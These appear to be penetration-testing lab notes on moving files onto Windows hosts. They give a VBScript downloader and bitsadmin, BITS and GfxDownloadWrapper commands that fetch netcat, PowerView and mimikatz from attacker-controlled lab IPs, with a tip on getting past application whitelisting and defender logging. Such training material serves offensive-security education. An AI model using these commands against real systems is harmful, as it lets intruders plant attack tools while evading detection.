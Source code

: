 
2) **VBScript**
```vbscript
Rem Create a file called wget.vbs
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
```powershell
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---
# Bitsadmin
```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
# OR
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

# GfxDownloadWrapper
Application whitelisting may *prevent* you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. The Intel Graphics Driver for Windows 10 (`GfxDownloadWrapper.exe`), installed on some systems and contains functionality to download configuration files periodically.
```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
